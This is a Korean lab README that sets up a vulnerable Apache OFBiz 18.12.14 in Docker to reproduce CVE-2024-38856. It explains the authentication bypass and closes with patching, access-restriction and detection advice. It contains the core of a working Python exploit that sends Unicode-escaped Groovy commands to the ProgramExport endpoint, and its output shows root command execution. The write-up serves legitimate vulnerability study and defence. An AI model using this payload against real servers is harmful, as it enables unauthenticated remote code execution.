





## 빠른 실행

### 1. 저장소 복제

PR이 병합되기 전에는 작성자의 브랜치를 직접 복제한다.

```bash
cd ~

git clone --branch CVE-2024-38856 \
  https://github.com/t-211/kr-vulhub.git \
  kr-vulhub-test
```

### 2. 실습 디렉터리 이동

```bash
cd ~/kr-vulhub-test/Apache-OFBiz/CVE-2024-38856
```

### 3. 취약 환경 실행

```bash
sudo docker compose up -d --build
```

최초 빌드 시 OFBiz 소스와 Gradle 의존성을 내려받으므로 인터넷 연결이 필요하며, 완료까지 수 분 이상 걸릴 수 있다.

### 4. 컨테이너 상태 확인

```bash
sudo docker compose ps
```

컨테이너가 `healthy` 상태가 될 때까지 기다린다.

자동으로 기다리려면 다음 명령을 실행한다.

```bash
until [ "$(sudo docker inspect -f '{{.State.Health.Status}}' cve-2024-38856-ofbiz)" = "healthy" ]; do
  echo "OFBiz 시작 대기 중..."
  sleep 10
done

echo "OFBiz is healthy"
```

### 5. 웹 서비스 확인

```bash
curl -k -I https://localhost:8443/webtools/control/main
```

정상 결과:

```text
HTTP/1.1 200
```

### 6. PoC 실행

```bash
./exploit.py
```

정상 결과:

```text
[+] Exploit request completed
[+] Command: id
[+] Result: uid=0(root) gid=0(root) groups=0(root)
```

### 7. 파일 생성 검증

```bash
./exploit.py --command "touch /tmp/cve-2024-38856-proof"

sudo docker compose exec ofbiz \
  ls -l /tmp/cve-2024-38856-proof
```

### 8. 환경 종료

```bash
sudo docker compose down
```

로컬 이미지까지 제거하려면 다음 명령을 사용한다.

```bash
sudo docker compose down --rmi local
```

---

## 1. 취약점 개요

CVE-2024-38856은 Apache OFBiz에서 발생하는 인증 우회 및 원격 코드 실행 취약점이다.

취약한 Apache OFBiz에서는 인증이 필요하지 않은 요청 경로 뒤에 보호된 View 이름을 추가해 접근할 수 있다. 공격자는 이 동작을 악용해 `ProgramExport` 화면을 인증 없이 렌더링하고, `groovyProgram` 파라미터에 Groovy 코드를 전달하여 서버에서 임의 명령을 실행할 수 있다.

본 실습에서는 Apache OFBiz 18.12.14 환경을 Docker Compose로 구축하고, 인증 정보를 제공하지 않은 상태에서 `id` 명령과 파일 생성 명령을 실행하여 취약점을 재현한다.

| 항목 | 내용 |
|---|---|
| CVE 번호 | CVE-2024-38856 |
| 대상 제품 | Apache OFBiz |
| 취약 버전 | Apache OFBiz 18.12.14 이하 |
| 수정 버전 | Apache OFBiz 18.12.15 이상 |
| 취약점 유형 | 인증 우회, 원격 코드 실행 |
| 공격 위치 | 원격 |
| 인증 필요 여부 | 불필요 |
| 사용자 상호작용 | 불필요 |
| CVSS v3.1 | 9.8 Critical |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 주요 영향 | 서버 권한으로 임의 명령 실행 |


### Risk Score 분석

CVE-2024-38856은 네트워크를 통해 원격으로 공격할 수 있으며, 공격 복잡도가 낮고 사용자 인증과 사용자 상호작용이 필요하지 않다. 공격에 성공하면 서버 내부 명령 실행을 통해 기밀성, 무결성, 가용성에 모두 높은 영향을 줄 수 있으므로 CVSS v3.1 기준 9.8점의 Critical 취약점으로 평가된다.

---

## 2. 취약점 원리

Apache OFBiz는 요청 URL을 처리할 때 요청 경로를 `requestUri`와 `overrideViewUri`로 분리한다.

다음 URL을 요청하는 경우:

```text
/webtools/control/main/ProgramExport
```

OFBiz는 요청을 다음과 같이 처리한다.

```text
requestUri      = main
overrideViewUri = ProgramExport
```

인증 검사는 `requestUri`인 `main`을 기준으로 수행된다. `main` 요청은 인증이 필요하지 않도록 설정되어 있기 때문에 인증되지 않은 사용자도 요청을 통과할 수 있다.

하지만 실제 화면 렌더링 단계에서는 `overrideViewUri`인 `ProgramExport`가 사용된다.

```text
인증되지 않은 요청
        ↓
requestUri: main
        ↓
main의 인증 검사 통과
        ↓
overrideViewUri: ProgramExport
        ↓
ProgramExport View 렌더링
        ↓
ProgramExport.groovy 실행
        ↓
groovyProgram 파라미터 평가
        ↓
서버 내부 명령 실행
```

`ProgramExport` 화면 정의에는 다음 Groovy 스크립트가 연결되어 있다.

```text
component://webtools/groovyScripts/entity/ProgramExport.groovy
```

취약한 버전에서는 `groovyProgram` 파라미터에 전달된 값이 Groovy 코드로 평가될 수 있다. 따라서 공격자는 인증 없이 조작된 요청을 전송하여 서버 내부 명령을 실행할 수 있다.

---

## 3. 취약 조건

다음 조건을 만족할 때 취약점이 발생할 수 있다.

- Apache OFBiz 18.12.14 이하 버전을 사용한다.
- OFBiz WebTools 서비스에 원격으로 접근할 수 있다.
- `/webtools/control/main/ProgramExport` 경로에 접근할 수 있다.
- `groovyProgram` 파라미터가 서버에서 Groovy 코드로 처리된다.
- 해당 관리 기능에 대한 추가 네트워크 접근 제한이 적용되지 않았다.

---

## 4. 실습 환경

| 항목 | 내용 |
|---|---|
| 호스트 운영체제 | Ubuntu 24.04 |
| 컨테이너 실행 환경 | Docker Engine |
| 환경 관리 | Docker Compose |
| Base Image | eclipse-temurin:11-jdk-jammy |
| Java | Eclipse Temurin JDK 11 |
| Apache OFBiz | 18.12.14 |
| HTTP 포트 | 8080 |
| HTTPS 포트 | 8443 |

> 최초 Docker 이미지 빌드 시 Apache 공식 아카이브와 Gradle 저장소에서 OFBiz 소스 및 의존성을 내려받으므로 인터넷 연결이 필요하다. OFBiz 압축 파일은 Apache에서 제공하는 SHA-512 값과 비교하여 무결성을 검증한다.

### 디렉터리 구조

```text
CVE-2024-38856/
├── Dockerfile
├── docker-compose.yml
├── .dockerignore
├── exploit.py
├── README.md
└── screenshots/
    ├── 1-compose-running.png
    ├── 2-ofbiz-version.png
    ├── 3-exploit-id.png
    ├── 4-file-created.png
    └── 5-http-response.png
```

---

## 5. 환경 구성 파일

### 5.1 Dockerfile

Dockerfile에서는 Apache 공식 아카이브에서 OFBiz 18.12.14 소스 코드를 내려받는다.

다운로드한 압축 파일의 SHA-512 값을 확인한 뒤 Gradle Wrapper를 초기화하고, `cleanAll loadAll` 작업으로 OFBiz와 초기 데이터를 구성한다.

```dockerfile
FROM eclipse-temurin:11-jdk-jammy

ARG OFBIZ_VERSION=18.12.14

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
        ca-certificates \
        curl \
        unzip \
        bash \
        libdigest-sha-perl && \
    rm -rf /var/lib/apt/lists/*

WORKDIR /opt

RUN curl -fsSLO \
        "https://archive.apache.org/dist/ofbiz/apache-ofbiz-${OFBIZ_VERSION}.zip" && \
    curl -fsSLO \
        "https://archive.apache.org/dist/ofbiz/apache-ofbiz-${OFBIZ_VERSION}.zip.sha512" && \
    EXPECTED_HASH="$(cut -d ':' -f 2- apache-ofbiz-${OFBIZ_VERSION}.zip.sha512 | tr -d '[:space:]' | tr 'A-F' 'a-f')" && \
    ACTUAL_HASH="$(sha512sum apache-ofbiz-${OFBIZ_VERSION}.zip | awk '{print $1}')" && \
    test "${EXPECTED_HASH}" = "${ACTUAL_HASH}" && \
    unzip "apache-ofbiz-${OFBIZ_VERSION}.zip" && \
    mv "apache-ofbiz-${OFBIZ_VERSION}" ofbiz && \
    rm "apache-ofbiz-${OFBIZ_VERSION}.zip" \
       "apache-ofbiz-${OFBIZ_VERSION}.zip.sha512"

WORKDIR /opt/ofbiz

RUN chmod +x gradle/init-gradle-wrapper.sh && \
    ./gradle/init-gradle-wrapper.sh && \
    chmod +x gradlew && \
    ./gradlew --no-daemon cleanAll loadAll

EXPOSE 8080 8443

CMD ["./gradlew", "--no-daemon", "ofbiz"]
```

### 5.2 docker-compose.yml

```yaml
services:
  ofbiz:
    build:
      context: .
      dockerfile: Dockerfile
      args:
        OFBIZ_VERSION: "18.12.14"
    image: cve-2024-38856-ofbiz:local
    container_name: cve-2024-38856-ofbiz
    ports:
      - "8080:8080"
      - "8443:8443"
    restart: unless-stopped
    healthcheck:
      test:
        [
          "CMD-SHELL",
          "curl -kfsS https://localhost:8443/webtools/control/main >/dev/null || exit 1"
        ]
      interval: 15s
      timeout: 10s
      retries: 20
      start_period: 180s
```

---

## 6. 취약 환경 실행

현재 디렉터리에서 다음 명령을 실행한다.

```bash
sudo docker compose up -d --build
```

최초 빌드 시 Apache OFBiz 소스 다운로드, Gradle 의존성 설치 및 초기 데이터 적재가 수행되므로 시간이 오래 걸릴 수 있다.

컨테이너 실행 상태를 확인한다.

```bash
sudo docker compose ps
```

컨테이너가 `healthy` 상태이면 정상적으로 실행된 것이다.



---

## 7. 취약 버전 확인

Dockerfile과 Compose 설정에서 Apache OFBiz 버전이 18.12.14로 지정되어 있는지 확인한다.

```bash
grep -n "OFBIZ_VERSION" Dockerfile docker-compose.yml
```

예상 결과:

```text
Dockerfile:3:ARG OFBIZ_VERSION=18.12.14
docker-compose.yml:8:        OFBIZ_VERSION: "18.12.14"
```

컨테이너 내부의 메이저·마이너 버전도 확인할 수 있다.

```bash
sudo docker compose exec ofbiz cat /opt/ofbiz/VERSION
```

`VERSION` 파일에는 `18.12`만 표시될 수 있으므로 정확한 패치 버전은 Dockerfile과 Compose의 고정 값을 함께 확인한다.



---

## 8. 서비스 동작 확인

다음 명령으로 OFBiz WebTools 서비스에 요청을 전송한다.

```bash
curl -k -I https://localhost:8443/webtools/control/main
```

정상 실행된 경우 다음과 같이 HTTP 200 응답이 반환된다.

```text
HTTP/1.1 200
```



브라우저에서는 다음 주소로 접속할 수 있다.

```text
https://localhost:8443/webtools/control/main
```

실습 환경은 자체 서명 인증서를 사용하므로 브라우저에서 인증서 경고가 표시될 수 있다.

---

## 9. PoC 코드

본 PoC의 요청 경로와 Unicode Escape 처리 방식은 공개된 취약점 분석 자료를 참고하였으며, 본 실습 환경에서 반복적으로 재현할 수 있도록 Python 코드로 작성하였다.

`exploit.py`는 다음 과정으로 동작한다.

1. 실행할 시스템 명령을 Groovy 코드로 구성한다.
2. Groovy 코드를 Unicode Escape 문자열로 변환한다.
3. 변환된 코드를 `groovyProgram` 파라미터에 삽입한다.
4. `/webtools/control/main/ProgramExport` 경로로 POST 요청을 전송한다.
5. 서버 응답에서 명령 실행 결과를 추출한다.

PoC의 핵심 코드는 다음과 같다.

```python
def unicode_escape(code: str) -> str:
    return "".join(f"\\u{ord(char):04x}" for char in code)


def send_payload(target: str, command: str) -> str:
    groovy = f"throw new Exception('{command}'.execute().text);"
    payload = unicode_escape(groovy)

    body = urllib.parse.urlencode({
        "groovyProgram": payload
    }).encode()

    request = urllib.request.Request(
        f"{target.rstrip('/')}/webtools/control/main/ProgramExport",
        data=body,
        headers={
            "Content-Type": "application/x-www-form-urlencoded",
            "User-Agent": "CVE-2024-38856-Lab"
        },
        method="POST"
    )
```

명령 실행 결과를 예외 메시지에 포함시켜 HTTP 응답을 통해 결과를 확인한다.

---

## 10. 취약점 재현

### 10.1 `id` 명령 실행

PoC를 실행한다.

```bash
./exploit.py
```

기본적으로 `id` 명령이 실행된다.

```text
[+] Exploit request completed
[+] Command: id
[+] Result: uid=0(root) gid=0(root) groups=0(root)
```

인증 쿠키나 사용자 계정을 제공하지 않았음에도 컨테이너 내부에서 `root` 권한으로 명령이 실행되었다.



### 10.2 사용자 지정 명령 실행

`--command` 옵션을 사용하면 다른 명령을 실행할 수 있다.

```bash
./exploit.py --command "whoami"
```

대상 주소를 직접 지정할 수도 있다.

```bash
./exploit.py \
  --target https://localhost:8443 \
  --command "id"
```

### 10.3 파일 생성 검증

명령 실행 여부를 명확하게 확인하기 위해 컨테이너 내부에 파일을 생성한다.

```bash
./exploit.py --command "touch /tmp/cve-2024-38856-proof"
```

파일 생성 여부를 확인한다.

```bash
sudo docker compose exec ofbiz \
  ls -l /tmp/cve-2024-38856-proof
```

실행 결과:

```text
-rw-r--r-- 1 root root 0 /tmp/cve-2024-38856-proof
```



이를 통해 인증되지 않은 원격 요청으로 서버 내부 명령이 실행되는 것을 확인하였다.

---

## 11. 실행 결과

| 검증 항목 | 결과 |
|---|---|
| Docker Compose 이미지 빌드 | 성공 |
| OFBiz 컨테이너 실행 | 성공 |
| 컨테이너 Healthcheck | Healthy |
| OFBiz HTTPS 응답 | HTTP 200 |
| 인증 없이 PoC 요청 전송 | 성공 |
| `id` 명령 실행 | 성공 |
| 명령 실행 권한 | root |
| 임의 파일 생성 | 성공 |

실습 결과, 인증되지 않은 공격자가 조작된 `ProgramExport` 요청을 통해 Apache OFBiz 서버 내부에서 임의 명령을 실행할 수 있음을 확인하였다.

본 실습 환경에서는 OFBiz 프로세스가 컨테이너 내부의 `root` 권한으로 실행되기 때문에 명령 역시 `root` 권한으로 수행되었다.

실제 운영 환경에서는 OFBiz 프로세스의 실행 권한에 따라 다음 피해로 이어질 수 있다.

- 서버 내부 파일 열람 및 변조
- 데이터베이스 자격 증명 유출
- 애플리케이션 설정 파일 탈취
- 추가 악성코드 다운로드 및 실행
- 내부 네트워크로의 추가 공격
- 서비스 중단

---


## 12. 재현성 확인

최종 제출 전 다음 명령으로 기존 컨테이너와 로컬 이미지를 제거한 뒤, 제출 파일을 수정하지 않은 상태에서 환경을 다시 구축한다.

```bash
sudo docker compose down --rmi local
sudo docker compose up -d --build
sudo docker compose ps
./exploit.py
```

재검증 결과는 다음과 같이 기록한다.

| 항목 | 결과 |
|---|---|
| Docker 이미지 신규 빌드 | 성공 |
| OFBiz 자동 구성 | 성공 |
| 컨테이너 Healthcheck | Healthy |
| PoC 재실행 | 성공 |
| 추가 파일 수정 필요 | 없음 |


재검증 시 PoC 실행 결과는 다음과 같았다.

```text
[+] Exploit request completed
[+] Command: id
[+] Result: uid=0(root) gid=0(root) groups=0(root)
```


---

## 13. 대응 방안

### 13.1 Apache OFBiz 업데이트

Apache OFBiz를 취약점이 수정된 버전으로 업데이트한다.

```text
Apache OFBiz 18.12.15 이상
```

단순히 특정 URL만 차단하기보다 공식 보안 업데이트를 적용하는 것이 가장 중요하다.

### 13.2 WebTools 외부 접근 제한

WebTools 관리 기능을 인터넷에 직접 노출하지 않는다.

방화벽, VPN 또는 Reverse Proxy 접근 제어 기능을 이용하여 관리자 IP와 내부 네트워크만 접근할 수 있도록 제한한다.

### 13.3 최소 권한 원칙 적용

OFBiz 프로세스를 `root` 권한으로 실행하지 않고 별도의 제한된 사용자 권한으로 실행한다.

컨테이너를 사용할 경우에도 다음 보안 설정을 고려해야 한다.

- 비특권 사용자로 프로세스 실행
- 읽기 전용 파일시스템 사용
- 불필요한 Linux Capability 제거
- 중요 호스트 경로 마운트 금지
- 컨테이너 네트워크 접근 제한

### 13.4 비정상 요청 탐지

다음과 같은 요청 경로를 모니터링한다.

```text
/webtools/control/main/ProgramExport
/webtools/control/main/EntitySQLProcessor
```

특히 다음 특징이 포함된 요청을 확인한다.

- `groovyProgram` 파라미터가 포함된 POST 요청
- 다수의 `\uXXXX` 형식 Unicode Escape 문자열
- 인증 세션 없이 WebTools 관리 View에 접근하는 요청
- `main` 뒤에 보호된 View 이름이 추가된 비정상 URL

### 13.5 로그 점검

WebTools와 Reverse Proxy 로그에서 다음 항목을 확인한다.

- `ProgramExport` View 렌더링 기록
- 인증되지 않은 세션의 관리 기능 접근
- Groovy 실행 오류 및 예외 메시지
- 외부 명령 실행과 관련된 비정상 프로세스 생성

---

## 14. 환경 종료

실습을 마친 뒤 다음 명령으로 컨테이너와 네트워크를 제거한다.

```bash
sudo docker compose down
```

생성된 로컬 이미지까지 제거하려면 다음 명령을 사용한다.

```bash
sudo docker compose down --rmi local
```

---

## 15. 참고 자료

- [Apache OFBiz Security](https://ofbiz.apache.org/security.html)
- [NVD - CVE-2024-38856](https://nvd.nist.gov/vuln/detail/CVE-2024-38856)
- [Apache OFBiz 공식 아카이브](https://archive.apache.org/dist/ofbiz/)
- [Apache OFBiz Developers](https://ofbiz.apache.org/developers.html)
- [DoTTak - Apache OFBiz 1-Day 취약점 살펴보기 4: CVE-2024-38856](https://www.dottak.me/posts/2025-03-04-apache-ofbiz-1-day-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0-4-cve-2024-38856)

---
